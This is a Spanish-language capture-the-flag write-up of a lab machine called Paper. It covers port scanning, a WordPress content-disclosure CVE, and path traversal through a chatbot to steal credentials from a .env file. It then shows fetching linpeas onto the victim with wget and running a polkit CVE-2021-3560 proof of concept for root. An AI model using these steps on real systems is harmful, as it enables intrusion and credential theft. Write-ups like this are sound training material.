 > 📦 **OS**: Linux  
 > 🎯 **Dificultad**: fácil  
 > 🏷️ **Tags**: SMB, Kerberos, PrivEsc  

## Enumeración

Empezamos haciendo un escaneo de puertos como es habitual, nos reporta los puertos 22(SSH), 80(HTTP), 443(HTTPS) abiertos; luego prosigo con el reconocimiento de scripts pero ninguno de estos me da información relevante.

```
nmap -sSV -p- --open --min-rate 5000 10.10.11.143
```

```
nmap -sC -p22,80,443 10.10.11.143
```


Luego enumeré headers. Yo los enumero con `curl` pero hay muchas formas de enumerarlos, con wger, http, printf, pero sigo pensando que con curl es la manera más sencilla. 
```
curl -I 10.10.11.143
```


[X-Backend-Server](# "Encabezado HTTP no estándar que revela el servidor backend que procesó la petición.") nos da el dominio que se está corriendo en el backend, así que lo añadimos a office.paper a nuestro **_/etc/hosts_** especificándole la _IP_ de la máquina.

## Reconocimiento

Una vez estemos dentro de la página podemos navegar en ella, veremos que no hay mucha información relevante, pero wappalyzer nos revela la versión del [WordPress](# "software que permite crear blogs, páginas web y tiendas online con plantillas, plugins y un panel de administración sencillo.")(5.2.3). Las versiones son oro a la hora de vulnerar una página, tras una breve búsqueda por internet encontré que esta versión sufría de un **_Content Disclosure_** [CVE:2019-17671](https://www.exploit-db.com/exploits/47690).
```bash
http://office.paper/?static=1
```

<span style="font-size:12px">_Este es el contenido de la página, nos revela el subdominio de un chat privado <u>http://chat.office.paper/register/8qozr226AhkCHZdyY</u>_</span>

Para acceder a esta URL tendremos que agregar el subdominio al _/etc/hosts_, si no, nuestra máquina no sabrá dónde redirigirnos.  
Podrías pensar que haciendo fuzzing se podría encontrar y efectivamente encontrarías el subdominio. Pero requerimos del token identificador para registrarnos. 

```
ffuf -u http://10.10.11.143 -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 403
```


Una vez ya hemos añadido el subdominio y estamos en la página, vamos a registrarnos y navegar por ella a ver de qué nos podemos aprovechar. 

Casi de manera inmediata después de registrarnos, nos llegará un mensaje del grupo general. Fue gracioso ver que hicieran alusión a The Office, me pareció un muy buen punto. El caso es que leyendo un poco el grupo encontré que puedes hablar con un bot el cual tenía ciertas funciones que me parecieron potenciales para jugar con ellas.



Así que busqué a _recyclops_ para iniciar un chat privado con el bot; el primer indicio que me dio fue cuando le pregunté por un archivo que no existía.



Me di cuenta que hacía un `ls` en la máquina, intenté por varios medios colarle un comando pero no me dejaba :(, así que empecé a enumerar haciendo [Path Traversal](# "“Vulnerabilidad que permite acceder a archivos fuera del directorio previsto manipulando rutas con ../ u otros patrones.”").



El archivo que más llamó mi atención fue el de [hubot](# "framework de robot conversacional desarrollado por GitHub Inc. para automatizar tareas y mejorar la comunicación en entornos de oficina a través de plataformas de chat"). Así que me puse a investigarlo y encontré un .env que se usa para declarar variables de entorno.



Efectivamente, tenía una credencial. Ya que no podía ingresar comandos deduje que podía ingresar con estas credenciales vía ssh, ya que antes había visto que el usuario era **dwight** porque había archivos que pertenecían a ese usuario.

## Explotación

Una vez dentro, obtendremos la primera flag. Estuve enumerando un poco de todo, no vi nada potencial y decidí meterle un [linpeas](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)

###### Cargando linpeas en la máquina víctima

- Para descargar el archivo simplemente ejecutas este comando.
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
```

- Te montas un servidor en python desde tu máquina
```
python3 -m http.server 80
```

- Dentro de la máquina víctima en el directorio /tmp.
```
wget http://Ip/linpeas
```
Le das permisos de ejecución con `chmod +x linpeas` y lo ejecutas `./linpeas`


<span style="font-size:12px">_Nos reporta que es vulnerable al CVE-2021-3560_</span>

Esta vulnerabilidad aprovecha para escalar privilegios con [polkit](# "componente de control de privilegios en sistemas operativos de tipo Unix que permite a los procesos no privilegiados interactuar de forma segura con servicios privilegiados al implementar políticas de acceso basadas en la configuración"). Permite a un usuario local sin privilegios obtener acceso root, incluyendo la capacidad de crear cuentas administrativas, instalar software, modificar archivos críticos y más.

Yo utilicé este [POC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/tree/main) que automatiza el ataque.

- Instalamos el poc y lo subimos a la máquina víctima como hicimos antes con _linpeas_ 

```
./poc u=atrax p=test
```


```
su - atrax
```
Proporcionas la contraseña que pusiste y habrás escalado privilegios.

## Reflexión

Una máquina bastante curiosa, refleja la importancia de no usar versiones desactualizadas de WordPress, de sanitizar o restringir el uso de los bots ya que de ahí viene toda la toma de la máquina.

# FIN.

